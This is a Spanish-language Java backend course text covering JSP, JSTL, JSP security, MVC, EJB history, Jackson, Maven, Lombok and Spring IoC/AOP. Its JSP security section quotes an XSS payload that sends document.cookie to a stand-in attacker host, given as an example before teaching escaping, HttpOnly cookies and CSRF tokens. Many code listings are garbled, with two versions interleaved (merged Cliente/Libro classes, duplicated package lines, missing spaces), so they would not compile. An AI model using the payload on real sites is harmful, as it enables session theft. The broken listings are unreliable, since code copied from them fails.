<%@ include_once file="cabecera.jsp" %>: Inclusión estática en tiempo de traducción.
Scriptlets Clásicos (Antipatrón en desuso): Declaraciones (<%! int x = 0; %>), bloques de ejecución (<% for(...) { %>) y expresiones (<%= total %>).
En la industria moderna están terminantemente desaconsejados porque acoplan la vista al código fuente, hacen inviables las pruebas unitarias y favorecen la inyección de código.
Expression Language (EL — ${...}): Sintaxis limpia para acceder a los datos expuestos por el controlador. Resuelve propiedades llamando a sus getters e inspecciona los ámbitos en orden jerárquico: pageScope → requestScope → sessionScope → applicationScope.
Ejemplo: ${libro.titulo} invoca transparentemente libro.getTitulo().
JSTL (Jakarta Standard Tag Library): La biblioteca estándar que reemplazó a los scriptlets para el control de presentación mediante etiquetas estructuradas:
<%-- Directivas de página y taglib JSTL Core (Jakarta EE) --%>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ taglib prefix="c" uri="jakarta.tags.core" %>
<!DOCTYPE html>
<html lang="es">
<head>
<meta charset="UTF-8">
<title>Catálogo de Libros - JSP Limpio</title>
</head>
<body>
<h1>Libros Disponibles</h1>
<%-- Renderizado limpio con JSTL y Expression Language sin scriptlets --%>
<c:choose>
<c:when test="${not empty requestScope.libros}">
<table border="1">
<thead>
<tr><th>ID</th><th>Título</th><th>Precio</th></tr>
</thead>
<tbody>
<c:forEach items="${requestScope.libros}" var="libro">
<tr>
<td>${libro.id}</td>
<td><c:out value="${libro.titulo}" escapeXml="true"/></td>
<td>${libro.precio} €</td>
</tr>
</c:forEach>
</tbody>
</table>
</c:when>
<c:otherwise>
<p>No hay libros registrados en el catálogo.</p>
</c:otherwise>
</c:choose>
</body>
</html>
2.3 Programación Web con Java: Seguridad en JSP
Las páginas JSP procesan información procedente del usuario final (parámetros de consulta, formularios, cabeceras). Si estos datos no se gestionan de forma segura, la aplicación queda expuesta a graves vulnerabilidades de explotación remota.
1. Prevención Crítica de Cross-Site Scripting (XSS):
El ataque XSS (Cross-Site Scripting) ocurre cuando un usuario malintencionado introduce código JavaScript en un formulario o parámetro HTTP (ej. <script>fetch('https://malicioso.com?c='+document.cookie)</script>) y el servidor lo plasma sin filtrar en el documento HTML devuelto. Al renderizarse en el navegador de otros clientes, el script se ejecuta en su contexto de seguridad, permitiendo el robo de credenciales, secuestro de sesión y desfiguración web.
Tanto los scriptlets (<%= request.getParameter("nombre") %>) como el Expression Language crudo (${param.nombre}) imprimen el texto tal cual en la respuesta, abriendo una brecha inmediata de XSS reflectivo o persistente.
La regla de oro: Utilizar siempre la etiqueta <c:out> de JSTL con la propiedad escapeXml="true" (habilitada por defecto) o la función EL de sanitización fn:escapeXml():
<%-- ❌ VULNERABLE A XSS: Imprime la entrada en texto plano --%>
<p>Bienvenido, ${param.usuario}</p>
<%-- ✅ PROTEGIDO CONTRA XSS: Transforma caracteres peligrosos a entidades HTML seguras --%>
<p>Bienvenido, <c:out value="${param.usuario}" escapeXml="true" default="Invitado" /></p>
Carácter Peligroso
Entidad HTML Escapada
Riesgo Mitigado
<
<
Inyección de etiquetas <script>, <iframe>, <img onerror=...>
>
>
Cierre de etiquetas legítimas de la plantilla
&
&
Ofuscación de entidades y bypass de filtros
"
"
Rotura de atributos HTML (ej. <input value="...">)
'
'
Escape de cadenas en manejadores de eventos JavaScript (onclick='...')
2. Gestión Segura de Sesiones y Protección de Cookies:
Directiva session="false": Por defecto, cada página JSP genera automáticamente una instancia de HttpSession si no existía previamente. En páginas públicas (catálogos, login, landing pages) o servicios REST, debe definirse explícitamente:
<%@ page session="false" %> Esto ahorra memoria heap en el servidor Tomcat y previene ataques de Denial of Service (DoS) por saturación de sesiones anónimas.
Banderas de Seguridad en la Cookie JSESSIONID:
Configuradas a nivel del contenedor o en web.xml / application.properties:
HttpOnly: Ordena al navegador que impida el acceso a la cookie desde scripts del lado del cliente (document.cookie). Aunque exista un fallo XSS, el atacante no podrá leer el token de sesión.
Secure: Instruye al navegador para transmitir la cookie única y exclusivamente a través de conexiones cifradas TLS/HTTPS.
SameSite=Strict/Lax: Bloquea el envío automático de la cookie en peticiones cruzadas originadas desde sitios externos, mitigando ataques de falsificación de petición (CSRF).
Tokens Anti-CSRF en Formularios:
Todo formulario JSP que realice cambios de estado (POST/PUT/DELETE) debe incorporar un token criptográfico de un solo uso validado en el servidor:
<input type="hidden" name="_csrf" value="${sessionScope.csrfToken}" />
2.4 Programación Web con Java: Introducción al Patrón MVC
En los orígenes de Java Web (denominado Modelo 1), las páginas JSP contenían directamente conexiones JDBC a la base de datos y lógica de negocio. Esto generaba el temido "código espagueti": una maraña inmanejable de SQL, HTML y Java imposible de mantener o someter a pruebas automatizadas.
Para resolver esta carencia surgió el Modelo 2 de Java Web, que adopta el patrón arquitectónico Model-View-Controller (MVC):
Gestiona los datos, las reglas de validación de negocio y el acceso a la persistencia. Es agnóstico a la web.
Vista (View)
Plantillas JSP pasivas con JSTL/EL
Thymeleaf o payloads JSON serializados
Presenta los datos al usuario final. No ejecuta lógica de negocio ni consultas directas a la base de datos.
Controlador (Controller)
HttpServlet (con doGet / doPost)
@Controller o @RestController
Punto de entrada: intercepta la petición HTTP, invoca al Modelo, prepara los datos y despacha el flujo hacia la Vista adecuada.
El Flujo Completo de Petición en el MVC Clásico:
Llegada de la Petición: El cliente envía GET /catalogo. El contenedor despacha la petición hacia el Servlet Controlador correspondiente.
Ejecución de Lógica: El Servlet invoca el servicio de negocio del Modelo: List<Libro> libros = catalogoService.obtenerTodos();.
Almacenamiento en el Ámbito (Scope): El Servlet inyecta el resultado como atributo en la petición: req.setAttribute("libros", libros);.
Despacho Interno (Forward): El Servlet transfiere el control a la página JSP interna:
RequestDispatcher dispatcher = req.getRequestDispatcher("/WEB-INF/vistas/catalogo.jsp"); dispatcher.forward(req, res);
Los archivos JSP deben ubicarse siempre dentro del directorio /WEB-INF/. La especificación Servlet prohíbe que el navegador acceda directamente por URL a cualquier archivo situado bajo /WEB-INF/. Solo un Servlet interno puede despachar hacia ellos mediante forward(), garantizando que nadie pueda saltarse la lógica del Controlador.
Renderizado de la Vista:catalogo.jsp extrae la colección mediante EL (${requestScope.libros}) y JSTL, compone el marcado HTML y el contenedor lo envía como cuerpo de la respuesta HTTP al cliente.
Evolución hacia Spring MVC: En el Tema 6 comprobarás cómo este patrón clásico evolucionó hacia el DispatcherServlet de Spring MVC, que actúa como Front Controller único interceptando todas las peticiones y orquestando el enrutamiento a controladores anotados con @RestController.
2.5 Programación Web con Java: Introducción a Enterprise Java Beans (EJB) y la Génesis de Spring
A finales de los años 90 y principios de los 2000, Sun Microsystems definió el estándar J2EE (Java 2 Platform, Enterprise Edition). El corazón de esta arquitectura eran los Enterprise Java Beans (EJB), componentes diseñados para encapsular la lógica de negocio en sistemas corporativos de gran escala, ofreciendo servicios distribuidos, seguridad declarativa y gestión transaccional automática.
Tipos de Enterprise Java Beans:
Stateless Session Beans (@Stateless): Componentes de negocio que no mantienen memoria ni estado conversacional entre sucesivas peticiones del cliente. El servidor gestiona un pool de instancias compartidas de altísimo rendimiento y escalabilidad (ideales para servicios de autenticación, cálculo de nóminas o procesamiento de transacciones financieras).
Stateful Session Beans (@Stateful): Mantienen el estado exclusivo de un cliente a lo largo de múltiples interacciones (ej. un asistente de contratación en varios pasos o un carrito de compras tradicional). Requieren mayor consumo de memoria en el servidor y mecanismos de passivation (serialización a disco cuando la memoria escasea) y activation.
Message-Driven Beans (@MessageDriven / MDB): Consumidores asíncronos desacoplados que escuchan colas o tópicos del servicio de mensajería JMS (Java Message Service). Se activan automáticamente al recibir un mensaje sin bloquear al cliente emisor.
Entity Beans (EJB 2.x): El primitivo intento de persistencia distribuida de Sun Microsystems. Eran extraordinariamente lentos, difíciles de modelar y propensos a bloqueos masivos en base de datos. Fracasaron estrepitosamente en la industria y fueron reemplazados por completo tras la aparición de Hibernate y el estándar JPA.
La Crisis de Sobreingeniería de J2EE / EJB 2.x:
Aunque la promesa teórica de EJB era atractiva, su implementación en las versiones 1.x y 2.x sumió al ecosistema Java en lo que se conoció como "la era oscura de J2EE":
Sobrecarga de Código y Acoplamiento: Cada EJB requería implementar interfaces complejas de infraestructura (EJBObject, EJBHome, interfaces remotas y locales) y manejar excepciones obligatorias del sistema (RemoteException).
Invocaciones Remotas por Defecto (RMI): Diseñado originalmente para arquitecturas físicamente distribuidas, el contenedor serializaba y deserializaba llamadas por red (RMI/IIOP) incluso cuando el cliente y el bean estaban ejecutándose en la misma máquina virtual, hundiendo el rendimiento.
Búsquedas Tediosas con JNDI: Para obtener la referencia a un bean, el programador debía escribir decenas de líneas de código buscando identificadores en el árbol JNDI (new InitialContext().lookup("java:comp/env/ejb/MiServicio")).
El Infierno del XML ("XML Hell"): Configurar la inyección, las transacciones y la seguridad obligaba a redactar ficheros ejb-jar.xml gigantescos y propensos a errores tipográficos silenciosos.
Servidores Monolíticos Pesados: Los EJBs no podían ejecutarse en contenedores ligeros como Tomcat. Requerían Servidores de Aplicaciones completos, privativos y de arranque exasperantemente lento: IBM WebSphere, BEA WebLogic u Oracle Application Server.
Imposibilidad de Testing Unitario: Era literalmente imposible probar una clase de negocio con JUnit sin levantar el servidor de aplicaciones completo, ralentizando el ciclo de desarrollo a límites insostenibles.
En 2002, el arquitecto de software Rod Johnson publicó un libro fundamental: "Expert One-on-One J2EE Design and Development". En sus páginas argumentó que el 95% de los sistemas empresariales no necesitaban la complejidad de los servidores EJB.
Johnson demostró que era posible lograr transaccionalidad declarativa, acceso a datos robusto y modularidad total utilizando POJOs (Plain Old Java Objects) simples y sin ataduras a librerías del proveedor, gestionados por un contenedor liviano basado en Inversión de Control (IoC) e Inyección de Dependencias (DI).
El código abierto que acompañó al libro se convirtió oficialmente en Spring Framework 1.0 en 2004. Spring liberó a los desarrolladores del ecosistema EJB 2.x, revolucionó para siempre la arquitectura de software empresarial y es la base directa del moderno Spring Boot que estudiarás a partir del Tema 4.
2.6 Los 6 Tipos Primitivos de JSON
1. String: Texto obligatorio entre comillas dobles ("texto").
2. Number: Entero o decimal sin comillas (42, 19.99).
3. Boolean: true o false en minúsculas y sin comillas.
4. null: Ausencia de valor (null).
5. Array: Lista ordenada entre corchetes ([1, 2, 3]).
6. Object: Colección de pares clave-valor entre llaves ({"clave": "valor"}). Nota: Las comas al final del último elemento (trailing commas) son ilegales en JSON estricto.
2.7 Jackson en Spring Boot: ObjectMapper en Acción
En Spring Boot, Jackson viene preinstalado. Cuando un método anotado con @RestController devuelve un objeto Java, Jackson lo serializa a JSON automáticamente. Cuando el cliente envía un cuerpo en la petición, Jackson lo deserializa a un objeto Java.
2.8 Serialización y Deserialización de Colecciones
Para listas genéricas, Jackson requiere TypeReference con el objetivo de preservar la información de tipos frente al Type Erasure de la JVM en tiempo de ejecución.
Tema 3 — Apache Maven y Reducción de Código con Lombok
La base de cualquier proyecto Java profesional reside en la reproducibilidad de su compilación y la limpieza de su código fuente. Aquí dominarás el ciclo de vida de Apache Maven (pom.xml, dependencias transitivas y plugins) junto con el uso riguroso de Project Lombok para eliminar código repetitivo sin comprometer el encapsulamiento.
Cuando programas en Java por primera vez, dos tareas consumen el 70% de tu tiempo si no tienes las herramientas adecuadas:
Maven (El Jefe de Logística): En lugar de buscar manualmente por internet decenas de ficheros .jar de librerías, descargarlos a mano y resolver conflictos de versiones, defines lo que necesitas en el pom.xml. Maven descarga automáticamente todas las dependencias y sus transitivas, compila el código y empaqueta el archivo .jar ejecutable con un solo comando (mvn clean package).
Lombok (El Asistente Mecanógrafo): En Java estándar, crear una clase de datos con 5 propiedades exige escribir más de 60 líneas repetitivas (*boilerplate*: getters, setters, constructores, equals, hashCode y toString). Lombok lee tus anotaciones y genera todo ese código automáticamente en memoria durante la compilación, manteniendo tus clases limpias y legibles.
3.1 Estructura Estándar de Maven
mi-proyecto-spring/
├── pom.xml ← Fichero maestro de configuración y dependencias
└── src/
├── main/
│ ├── java/ ← Código fuente de la aplicación (.java)
│ └── resources/ ← Ficheros de configuración (application.properties, schemas)
└── test/
├── java/ ← Pruebas unitarias e integración
└── resources/ ← Configuración aislada de test
3.2 Lombok: Eliminación de Boilerplate y Patrón Builder
import lombok.*;
package com.bibliotech.model;
import lombok.*;
import java.math.BigDecimal;
@Getter@Setter@NoArgsConstructor@AllArgsConstructor@Builderpublic classCliente {
public classLibro {
privateLong id;
privateString nombre;
privateString email;
privateDouble saldo;
privateString isbn;
privateString titulo;
privateBigDecimal precio;
privateString editorial;
}
// Uso elegante del patrón Builder generado automáticamente:Cliente c = Cliente.builder()
// Uso elegante del patrón Builder generado automáticamente en BiblioTech:Libro cleanCode = Libro.builder()
.id(1L)
.nombre("Lucía Gómez")
.email("lucia@empresa.com")
.saldo(1500.0)
.isbn("978-0132350884")
.titulo("Clean Code")
.precio(BigDecimal.valueOf(39.95))
.editorial("Prentice Hall")
.build();
3.3 @Data en Entidades JPA: El Bucle infinito (StackOverflowError)
En el desarrollo con Lombok, @Data es una de las anotaciones más populares debido a su comodidad: combina automáticamente @Getter, @Setter, @ToString, @EqualsAndHashCode y @RequiredArgsConstructor sobre todos los campos de una clase.
Sin embargo, utilizar @Data sobre entidades JPA (Jakarta Persistence / Hibernate) es uno de los errores más graves en arquitecturas Spring Boot. Provoca el temido fenómeno del bucle infinito (recursión cíclica) que satura la pila de ejecución y colapsa la aplicación con un error irrecuperable: java.lang.StackOverflowError.
Figura 8: Anatomía del bucle infinito (StackOverflowError). En relaciones bidireccionales, el toString() automático de Lombok en Autor invoca a Libro, el cual a su vez re-invoca a Autor, saturando de frames la pila de ejecución de la JVM hasta el colapso del hilo.
¿Por qué se produce la recursión cíclica?
En bases de datos relacionales, las relaciones entre tablas suelen modelarse como asociaciones bidireccionales. Por ejemplo, una entidad Autor contiene una lista de Libro (@OneToMany), y cada Libro tiene una referencia de regreso a su Autor (@ManyToOne).
Lombok genera un método toString() que concatena las representaciones en texto de todos los atributos.
Al registrar en log o serializar el autor (log.info("{}", autor)), se invoca autor.toString().
Para imprimir la propiedad libros, Java recorre la colección e invoca libro.toString() para cada libro.
Dentro de libro.toString(), Lombok intenta imprimir la propiedad autor, por lo que llama inmediatamente a autor.toString().
A su vez, autor.toString() vuelve a llamar a libro.toString(), entrando en un ciclo infinito sin condición de parada.
En milisegundos, los miles de marcos de llamada apilados superan el límite de la pila de la JVM (Call Stack) y el hilo muere fulminado con un StackOverflowError.
Nota crítica: El mismo bucle infinito exacto ocurre con @EqualsAndHashCode cuando se insertan entidades en colecciones como HashSet o HashMap, ya que autor.hashCode() llama a libro.hashCode() y viceversa.
Ejemplo Práctico: El Código del Desastre vs La Solución Profesional
// ❌ ANTIPATRÓN CATASTRÓFICO: @Data en ambas entidades bidireccionales@Entity@Data// ← Genera toString() y hashCode() sobre 'libros'public classAutor {
@Id@GeneratedValue(strategy = GenerationType.IDENTITY)
privateLong id;
privateString nombre;
@OneToMany(mappedBy = "autor")
privateList<Libro> libros = newArrayList<>();
}
@Entity@Data// ← Genera toString() y hashCode() sobre 'autor'public classLibro {
@Id@GeneratedValue(strategy = GenerationType.IDENTITY)
privateLong id;
privateString titulo;
@ManyToOneprivateAutor autor;
}
// Disparo del error en tiempo de ejecución:Autor a = autorRepo.findById(1L).get();
log.info("Autor cargado: {}", a);
// 💥 CRASH: java.lang.StackOverflowError: null// at com.demo.Autor.toString(Autor.java:12)// at com.demo.Libro.toString(Libro.java:15)// at com.demo.Autor.toString(Autor.java:12) ... (repetido 10.000 veces)
// SOLUCIÓN PROFESIONAL: Anotaciones quirúrgicas y exclusión de ciclo@Entity@Getter@Setter@NoArgsConstructor@AllArgsConstructor@ToString(exclude = "libros") // CORTA EL BUCLE: No navega a la colección hijapublic classAutor {
@Id@GeneratedValue(strategy = GenerationType.IDENTITY)
privateLong id;
privateString nombre;
@OneToMany(mappedBy = "autor", fetch = FetchType.LAZY)
privateList<Libro> libros = newArrayList<>();
}
@Entity@Getter@Setter@NoArgsConstructor@AllArgsConstructor@ToString(exclude = "autor") // CORTA EL BUCLE: No navega hacia el autor padrepublic classLibro {
@Id@GeneratedValue(strategy = GenerationType.IDENTITY)
privateLong id;
privateString titulo;
@ManyToOne(fetch = FetchType.LAZY)
privateAutor autor;
}
Ruptura de colecciones HashSet / HashMap: En JPA, una entidad antes de guardarse tiene id = null, y tras ejecutar save() recibe un ID autogenerado. Como @EqualsAndHashCode generado por Lombok computa el hash usando todos los campos, el hashcode de la entidad muta en memoria. Si insertas la entidad en un Set antes de persistir, tras hacer el persist() será imposible recuperarla o eliminarla del set (set.contains(entidad) devolverá false).
Disparo de LazyInitializationException: Si la relación está configurada como FetchType.LAZY y se invoca toString() fuera de una transacción abierta, Hibernate intentará cargar la colección perezosa sin sesión activa y lanzará una excepción.
Tema 4 — Fundamentos de Spring: IoC, Inyección de Dependencias y Beans
El núcleo de Spring se fundamenta en la Inversión de Control (IoC), donde el ApplicationContext asume la responsabilidad de instanciar, configurar y ensamblar los componentes (Beans). Este tema profundiza en la inyección por constructor, la desambiguación de dependencias, el ciclo de vida del Bean y la modularización de lógica transversal mediante Spring AOP.
Imagina que vas a montar una lámpara en tu salón:
El enfoque sin IoC (Antipatrón): Para encender la bombilla, fabricas tú mismo una pequeña central eléctrica en el jardín y tiras cables soldados hasta la lámpara (new CentralElectrica()). Tu lámpara está rígidamente acoplada a esa fuente de energía; si la central falla o quieres cambiar a placas solares, tienes que romper la lámpara.
El enfoque con IoC y Spring: Tu lámpara solo tiene una clavija universal (un Constructor que pide electricidad). El Contenedor de Spring es el enchufe de la pared: él decide de dónde viene la energía (red eléctrica general, batería o generador solar) y te la suministra sin que la lámpara tenga que saber cómo se generó.
En código: tus clases de servicio nunca hacen new de sus colaboradores. Simplemente piden lo que necesitan en su constructor, y Spring se encarga de crear las instancias y conectarlas como piezas de Lego.
4.1 Inversión de Control (IoC) y Contrato de Interfaces
La abstracción mediante interfaces desacopla a los consumidores de las implementaciones concretas, permitiendo sustituir componentes y mockear en tests sin esfuerzo.
4.2 Inyección por Constructor y Resolución con @Primary
Cuando existen múltiples implementaciones de una misma interfaz, @Primary marca la candidata preferente para ser inyectada automáticamente por constructor.
4.3 Resolución de Ambigüedades con @Qualifier
Si se requiere una implementación distinta a la principal, se utiliza @Qualifier("nombreBean") en el parámetro del constructor para desambiguar explícitamente.
package com.accenture.demo.ioc;
package com.libreria.ioc;
import org.springframework.stereotype.Component;
import org.springframework.stereotype.Service;
import org.springframework.context.annotation.Primary;
import org.springframework.beans.factory.annotation.Qualifier;
// 1. Contrato (Interfaz)// 1. Contrato (Interfaz de notificación en BiblioTech)public interfaceNotificacionService {
voidenviar(String destino, String msg);
}
// 2. Implementación A: Marcada como Primaria por defecto// 2. Implementación A: Notificación por Email marcada como Primaria por defecto@Component("emailNotif")
@Primarypublic classEmailNotificacionServiceimplementsNotificacionService {
@Overridepublic voidenviar(String destino, String msg) {
System.out.println("[EMAIL] Para " + destino + ": " + msg);
System.out.println("[EMAIL a " + destino + "]: " + msg);
}
}
// 3. Implementación B: Implementación secundaria// 3. Implementación B: Notificación urgente por SMS para avisos críticos@Component("smsNotif")
public classSmsNotificacionServiceimplementsNotificacionService {
@Overridepublic voidenviar(String destino, String msg) {
System.out.println("[SMS] Para " + destino + ": " + msg);
System.out.println("[SMS a " + destino + "]: " + msg);
}
}
// 4. Consumo mediante Constructor: Recibe EmailNotificacionService gracias a @Primary// 4. Consumo habitual: Recibe EmailNotificacionService automáticamente gracias a @Primary@Servicepublic classPedidoService {
public classPrestamoLibroService {
private finalNotificacionService notificacion;
publicPedidoService(NotificacionService notificacion) {
this.notificacion = notificacion;
publicPrestamoLibroService(NotificacionService notificacion) {
this.notificacion = notificacion; // Spring inyecta EmailNotificacionService
}
}
// 5. Consumo con @Qualifier: Fuerza explícitamente el Bean "smsNotif"// 5. Consumo con @Qualifier: Desambigua explícitamente e inyecta "smsNotif"@Servicepublic classAlertaCriticaService {
public classAlertaDevolucionVencidaService {
private finalNotificacionService notificacion;
publicAlertaCriticaService(@Qualifier("smsNotif") NotificacionService notificacion) {
this.notificacion = notificacion;
publicAlertaDevolucionVencidaService(@Qualifier("smsNotif") NotificacionService notificacion) {
this.notificacion = notificacion; // Fuerza el envío por SMS urgente
}
}
4.4 Desarrollo Basado en Aspectos (Spring AOP) y Ciclo de Vida del Bean
La Programación Orientada a Aspectos (AOP) permite modularizar preocupaciones transversales (cross-cutting concerns) como auditoría, medición de rendimiento, seguridad y gestión transaccional, sin contaminar las clases de negocio:
Aspect (Aspecto): Clase modularizadora anotada con @Aspect y @Component.
JoinPoint: Punto de ejecución del flujo (ej. invocación de cualquier método de un servicio).
Pointcut: Expresión de corte que selecciona qué JoinPoints interceptar (ej. execution(* com.accenture.demo.service..*(..))).
Advice: Lógica interceptora: @Before, @After, @AfterReturning, @AfterThrowing o @Around (el más potente, envuelve la llamada con ProceedingJoinPoint).
package com.accenture.demo.aspect;
package com.bibliotech.aspect;
import org.aspectj.lang.ProceedingJoinPoint;
import org.aspectj.lang.annotation.Around;
import org.aspectj.lang.annotation.Aspect;
import org.slf4j.Logger;
import org.slf4j.LoggerFactory;
import org.springframework.stereotype.Component;
@Aspect@Componentpublic classRendimientoAspect {
private static finalLogger log = LoggerFactory.getLogger(RendimientoAspect.class);
@Around("execution(* com.accenture.demo.service..*(..))")
// Intercepta todos los métodos de los servicios del catálogo BiblioTech@Around("execution(* com.bibliotech.service..*(..))")
publicObjectmedirTiempo(ProceedingJoinPoint joinPoint) throwsThrowable {
long inicio = System.currentTimeMillis();
try {
return joinPoint.proceed(); // Ejecuta el método originalreturn joinPoint.proceed(); // Ejecuta el método original interceptado
} finally {
long duracion = System.currentTimeMillis() - inicio;
log.info("[AOP Rendimiento] {}.{}() ejecutado en {} ms",
joinPoint.getSignature().getDeclaringType().getSimpleName(),
joinPoint.getSignature().getName(),
duracion);
}
}
}
Mecanismo Interno de AOP: Proxies Dinámicos (JDK vs CGLIB)
Spring AOP no modifica el bytecode de tus archivos .class originales, sino que implementa el Patrón Proxy mediante envoltura en tiempo de ejecución:
JDK Dynamic Proxies: Si la clase a interceptar implementa una interfaz Java, Spring crea dinámicamente un proxy que implementa esa misma interfaz (mediante java.lang.reflect.Proxy).
CGLIB Proxies (estándar en Spring Boot): Si la clase no tiene interfaz (o por defecto en Spring Boot moderno), Spring genera mediante la librería CGLIB una subclase heredada en caliente (ej. PrestamoLibroService$$SpringCGLIB$$0) que sobreescribe los métodos para intercalar los advices.
La trampa de la auto-invocación (Self-Invocation): Si dentro de un método de PrestamoLibroService llamas a this.metodoTransaccional(), la llamada ocurre internamente en la instancia original sin pasar por el proxy de Spring, por lo que @Transactional o los aspectos no se ejecutarán. Para que un aspecto actúe, la invocación debe venir siempre desde un colaborador externo a través del proxy.
Ciclo de vida del Bean de Spring: Comprende:
Instanciación → Inyección de dependencias → Callbacks de inicialización (@PostConstruct) → Servicio activo gestionado → Callbacks de destrucción (@PreDestroy) al cerrar el contexto.
Bloque 2: Arquitectura Limpia y Core de Spring Boot

Figura 3: Contenido del Bloque 2 — Diseño en capas, SOLID, Spring Boot, Controladores REST con ResponseEntity, Servicios, IoC/DI profundo e introducción a JPA.
Objetivos de Aprendizaje — Bloque 2
Aplicar principios SOLID al diseño de clases backend.Entender qué hace @SpringBootApplication (Starters, ComponentScan, AutoConfig).Crear un @RestController completo con GET, POST, PUT, DELETE.Utilizar ResponseEntity para devolver códigos de estado semánticos (200, 201 con Location, 204).Desarrollar la capa @Service aislando la lógica de negocio de la web.Crear las primeras entidades JPA con @Entity, @Table, @Id, @GeneratedValue y @Column.
⚙️ Conceptos Clave del Bloque 2 — Arquitectura Limpia y Core de Spring Boot
Concepto
Definición Técnica y Ejemplo Práctico
Principios SOLID
Cinco pilares de la programación orientada a objetos (Single Responsibility, Open/Closed, Liskov Substitution, Interface Segregation, Dependency Inversion) para lograr código desacoplado y mantenible. Ejemplo: Invertir dependencias inyectando la interfaz PasarelaPago en lugar de instanciar la clase concreta StripePasarela.
Autoconfiguración de Spring Boot
Mecanismo inteligente (@EnableAutoConfiguration) que infiere y registra automáticamente beans de infraestructura evaluando librerías en el classpath mediante anotaciones como @ConditionalOnClass. Ejemplo: Incluir spring-boot-starter-web autoconfigura el servidor embebido Tomcat, Jackson y el DispatcherServlet en el puerto 8080 sin XML.
Ciclo del DispatcherServlet
Front Controller central de Spring MVC: intercepta todas las peticiones HTTP, consulta el HandlerMapping para hallar el controlador, resuelve argumentos con HandlerAdapter y serializa la respuesta. Ejemplo: GET /api/v1/libros/5 → DispatcherServlet enruta a LibroController.buscarPorId(5) y serializa el retorno a JSON con código 200.
Controladores REST (@RestController y ResponseEntity)
@RestController combina @Controller y @ResponseBody para emitir datos JSON directamente. ResponseEntity<T> permite controlar el código de estado semántico y cabeceras de red. Ejemplo: return ResponseEntity.created(URI.create("/api/libros/" + id)).body(nuevoLibro); (devuelve 201 Created con cabecera Location).
Inyección por Constructor en Servicios
Patrón recomendado de inyección de dependencias declarando campos private final inicializados por constructor. Garantiza inmutabilidad y facilita pruebas unitarias sin Spring. Ejemplo: public PedidoService(PedidoRepository repo) { this.repo = repo; } evita la fragilidad de @Autowired sobre campos privados.
Ejemplo: public LibroService(LibroRepository repo) { this.repo = repo; } evita la fragilidad de @Autowired sobre campos privados.
Transacciones ACID (@Transactional)
Garantía de Atomicidad, Consistencia, Aislamiento y Durabilidad en operaciones de persistencia. Ante cualquier RuntimeException no capturada, el aspecto intercepta y revierte (rollback) los cambios. Ejemplo: @Transactional public void transferir(...) { debitar(); acreditar(); } (si falla la acreditación, la retirada se revierte íntegramente).
Ejemplo: @Transactional public void prestarLibro(...) { verificarDisponibilidad(); registrarPrestamo(); descontarEjemplar(); } (si falla el registro del préstamo, el stock se revierte íntegramente).
Acceso a Datos (JDBC, JdbcTemplate y DataAccessException)
Evolución histórica del acceso a datos en Spring: JDBC clásico (gestión manual de conexiones y SQLException comprobada), JdbcTemplate (patrón Template, RowMapper tipado y liberación automática de recursos) y la jerarquía unificada de excepciones DataAccessException (desacoplada del proveedor de BD). Ejemplo: jdbcTemplate.query("SELECT * FROM libros WHERE id = ?", rowMapper, id) traduce automáticamente errores SQL nativos a excepciones runtime de Spring.
Arquitectura Hibernate (SessionFactory / Session)
SessionFactory (Singleton global e inmutable en JPA: EntityManagerFactory) almacena metadatos y pool de conexiones. Session (alcance por hilo/transacción en JPA: EntityManager) gestiona la Caché L1 y el Contexto de Persistencia. Ejemplo: Dentro de una transacción, Spring obtiene la Session activa, ejecuta las queries y sincroniza los cambios con la base de datos al confirmar.
Clases Mapeadas (@Entity, @Table, @Embeddable)
Mapeo declarativo ORM: @Entity declara persistencia con clave primaria (@Id); @Table define el nombre físico; y @Embeddable declara objetos de valor incrustados como columnas en la entidad propietaria (@Embedded). Ejemplo: @Embedded Direccion direccion mapea calle y ciudad directamente en la tabla usuarios.
Ejemplo: @Embedded DimensionesLibro dimensiones mapea alto_cm, ancho_cm y peso_gramos directamente en la tabla libros.
Ciclo de Vida de Objetos JPA (4 Estados)
Estados de una entidad frente al EntityManager: Transient (nueva en memoria), Managed (rastreada con dirty checking automático), Detached (sesión cerrada) y Removed (pendiente de borrado SQL). Ejemplo: em.persist(libro) pasa a Managed; modificar libro.setPrecio(20.0) dispara un UPDATE automático al finalizar la transacción sin llamar a save().
Mapeo de Herencia (@Inheritance)
Estrategias para modelar polimorfismo en SQL: SINGLE_TABLE (una sola tabla con discriminador), JOINED (tabla base y tablas derivadas unidas por FK) y TABLE_PER_CLASS (tablas completas independientes). Ejemplo: @Inheritance(strategy = InheritanceType.JOINED) public abstract class Empleado {}.
Ejemplo: @Inheritance(strategy = InheritanceType.JOINED) public abstract class Publicacion {} con hijas LibroFisico y LibroDigital.
Operaciones CRUD con Spring Data JPA
Abstracción de acceso a datos que implementa automáticamente Create, Read, Update y Delete al heredar de JpaRepository<Entidad, ID> sin escribir código SQL ni implementaciones manuales. Ejemplo: repo.save(producto), repo.findById(id), repo.deleteById(id) y repo.findAll().
Ejemplo: libroRepository.save(libro), libroRepository.findById(id), libroRepository.deleteById(id) y libroRepository.findAll().
Tema 5 — SOLID y el Arranque Mágico de Spring Boot
Spring Boot agiliza el desarrollo eliminando la configuración XML mediante la autoconfiguración condicional (@EnableAutoConfiguration). En este tema exploraremos cómo funciona internamente este mecanismo y cómo aplicar los cinco principios SOLID para estructurar aplicaciones desacopladas, testeables y fáciles de mantener a largo plazo.
5.1 Principios SOLID Aplicados a Backend
Spring Boot promueve activamente el principio de Responsabilidad Única (SRP) distribuyendo responsabilidades entre Controladores, Servicios y Repositorios, e Inversión de Dependencias (DIP) interactuando con abstracciones.
5.2 Autoconfiguración y Anotaciones Core (@SpringBootApplication)
Spring Boot no es un framework distinto de Spring: es una capa de opiniones y autoconfiguración sobre Spring Framework que elimina la configuración manual mediante @SpringBootApplication:
@Configuration: Marca la clase como fuente de definiciones de Beans.
@EnableAutoConfiguration: Lee el classpath y deduce qué librerías has incluido. Si detecta spring-boot-starter-web, arranca automáticamente Tomcat embebido.
@ComponentScan: Escanea automáticamente el paquete donde reside la clase principal y todos sus subpaquetes.
Tema 6 — Controladores RESTful con ResponseEntity<T>
La capa de controladores expone la funcionalidad del sistema hacia el exterior respetando la semántica RESTful. Aquí aprenderás a mapear rutas y verbos HTTP, procesar parámetros dinámicos, estructurar respuestas ricas con ResponseEntity y comprender el flujo interno del DispatcherServlet en Spring MVC.
6.1 Anatomía y Rol de @RestController
El @RestController combina @Controller y @ResponseBody, garantizando que el valor retornado por cada método se serialice directamente a JSON en el cuerpo de la respuesta HTTP.
6.2 Mapeo de Endpoints CRUD y Códigos de Estado
